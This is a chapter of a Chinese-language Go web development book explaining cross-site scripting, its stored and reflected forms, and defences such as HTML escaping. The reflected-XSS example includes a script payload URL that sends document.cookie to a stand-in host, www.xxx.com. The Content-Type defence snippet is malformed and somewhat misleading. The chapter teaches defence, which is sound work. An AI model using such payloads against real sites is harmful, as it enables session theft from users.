# 9.3 避免 XSS 攻擊
隨著網際網路技術的發展，現在的 Web 應用都含有大量的動態內容以提高使用者體驗。所謂動態內容，就是應用程式能夠根據使用者環境和使用者請求，輸出相應的內容。動態站點會受到一種名為“跨站指令碼攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是 XSS

XSS 攻擊：跨站指令碼攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站指令碼攻擊縮寫為 XSS。XSS 是一種常見的 web 安全漏洞，它允許攻擊者將惡意程式碼植入到提供給其它使用者使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS 涉及到三方，即攻擊者、客戶端與 Web 應用。XSS 的攻擊目標是為了盜取儲存在客戶端的 cookie 或者其他網站用於識別客戶端身份的敏感資訊。一旦取得到合法使用者的資訊後，攻擊者甚至可以假冒合法使用者與網站進行互動。

XSS 通常可以分為兩大類別：一類別是儲存型 XSS，主要出現在讓使用者輸入資料，供其他瀏覽此頁的使用者進行檢視的地方，包括留言、評論、部落格日誌和各類別表單等。應用程式從資料庫中查詢資料，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的指令碼資料後，使用者瀏覽此類別頁面時就可能受到攻擊。這個流程簡單可以描述為 : 惡意使用者的 Html 輸入 Web 程式->進入資料庫->Web 程式->使用者瀏覽器。另一類別是反射型 XSS，主要做法是將指令碼程式碼加入 URL 地址的請求參數裡，請求參數進入程式後在頁面直接輸出，使用者點選類似的惡意連結就可能受到攻擊。

XSS 目前主要的手段和目的如下：

- 盜用 cookie，取得敏感資訊。
- 利用植入 Flash，透過 crossdomain 許可權設定進一步取得更高許可權；或者利用 Java 等得到類似的操作。
- 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻擊者）使用者的身份執行一些管理動作，或執行一些如 : 發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次 XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的 XSS 可以攻擊一些小型網站，實現 DDoS 攻擊的效果

## XSS 的原理
Web 應用未對使用者提交請求的資料做充分的檢查過濾，允許使用者在提交的資料中摻入 HTML 程式碼(最主要的是“>”、“<”)，並將未經轉義的惡意程式碼輸出到第三方使用者的瀏覽器解釋執行，是導致 XSS 漏洞的產生原因。

接下來以反射性 XSS 舉例說明 XSS 的過程：現在有一個網站，根據參數輸出使用者的名稱，例如訪問 url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下資訊：

	hello astaxie

如果我們傳遞這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`，這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了 XSS 漏洞。那麼惡意使用者是如何盜取 Cookie 的呢？與上類似，如下這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的 cookie 傳送到指定的站點：`www.xxx.com`。你也許會說，這樣的 URL 一看就有問題，怎麼會有人點選？，是的，這類別的 URL 會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的 url 透過某些途徑傳播開來，不明真相的使用者一旦點選了這樣的 url，相應 cookie 資料就會被髮送事先設定好的站點，這樣子就盜得了使用者的 cookie 資訊，然後就可以利用 Websleuth 之類別的工具來檢查是否能盜取那個使用者的賬戶。

更加詳細的關於 XSS 的分析大家可以參考這篇叫做《[新浪微博 XSS 事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防 XSS

答案很簡單，堅決不要相信使用者的任何輸入，並過濾掉輸入中的所有特殊字元。這樣就能消滅絕大部分的 XSS 攻擊。

目前防禦 XSS 主要有如下幾種方式：

- 過濾特殊字元

	避免 XSS 的方法之一主要是將使用者所提供的內容進行過濾，Go 語言提供了 HTML 的過濾函式：

	text/template 套件下面的 HTMLEscapeString、JSEscapeString 等函式

- 使用 HTTP 頭指定型別

```Go

`w.Header().Set("Content-Type","text/javascript")`

這樣就可以讓瀏覽器解析 javascript 程式碼，而不會是 html 輸出。
```

## 總結
XSS 漏洞是相當有危害的，在開發 Web 應用的時候，一定要記住過濾資料，特別是在輸出到客戶端之前，這是現在行之有效的防止 XSS 的手段。

## links
   * [目錄](preface.md)
   * 上一節: [確保輸入過濾](09.2.md)
   * 下一節: [避免 SQL 注入](09.4.md)
